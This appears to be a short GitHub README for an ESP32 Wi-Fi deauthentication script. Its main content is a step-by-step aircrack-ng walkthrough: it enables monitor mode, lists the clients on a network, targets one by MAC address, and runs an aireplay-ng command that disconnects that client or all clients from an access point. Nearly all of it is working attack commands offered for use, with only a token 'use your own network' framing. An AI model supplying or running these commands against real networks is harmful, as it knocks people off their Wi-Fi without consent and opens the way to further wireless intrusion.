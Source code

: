 # ESP32-Deauthroize-clients-script

The code will deauth a single client on a wifi net.

Replace SSID and password with you own. Also change the MAC addresses.

You will need to find the BSSID MAC of your access point and the MAC of your client.

Note what mode your wlan is in:

iwconfig

Ie.:
wlan0     IEEE 802.11  ESSID:"INDIGO"  
          Mode:Managed  Frequency:5.24 GHz  Access Point: 78:D2:94:44:D2:2C   
          Bit Rate=200 Mb/s   Tx-Power=31 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=58/70  Signal level=-52 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0

To put wifi nic into monitor mode:
sudo airmon-ng start wlan0

To show who is on the network:
sudo airodump-ng wlan0mon

To monitor a specific client:
-d is destination target 
-c is channel number (found from using the airdump-ng command above)  
sudo airodump-ng -d 7E:D2:94:44:BA:28 -c 8 wlan0mon

To deuth a client :
-0 means deauth
-a and mac is teh AP
-c and mac is the client we want to deauth (leave this out to kick all clients off

sudo aireplay-ng -0 0 -a 7E:D2:94:44:BA:28 -c 44:4f:8E:9A:FF:8A wlan0mon

